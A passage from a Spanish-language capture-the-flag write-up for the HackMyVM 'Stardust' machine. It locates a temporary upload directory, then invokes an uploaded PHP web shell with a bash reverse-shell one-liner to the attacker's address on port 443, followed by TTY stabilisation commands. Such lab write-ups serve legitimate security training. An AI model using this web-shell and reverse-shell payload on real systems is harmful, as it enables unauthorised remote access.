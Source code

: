 Mientras la segunda solicitud está en espera reviso los directorios de la ruta `/files` y encuentro que en `/files/_tmp/` se está subiendo el archivo concatenando el hash.

![Untitled](/images/2023-12-16-HVM-Stardust/Untitled%2016.png)

![Untitled](/images/2023-12-16-HVM-Stardust/Untitled%2017.png)

Logramos encontrar donde se subia el archivo temporalmente, por lo que ahora me mando una reverse shell a mi equipo y hago un tratamiento de la `TTY`.

`http://192.168.1.47/files/_tmp/60c971b1df75c4.02469730shell.php?cmd=bash -c 'bash -i >%26 /dev/tcp/192.168.1.44/443 0>%261'`

![Untitled](/images/2023-12-16-HVM-Stardust/Untitled%2018.png)

Tratamiento de la TTY.

```bash
script /dev/null -c bash
ctrl+z
stty raw -echo;fg
reset xterm
export XTERM=xterm-256color
stty rows 55 columns 209 
# este ultimo paso es para que tengo colores
source /etc/skel/.bashrc
```

---
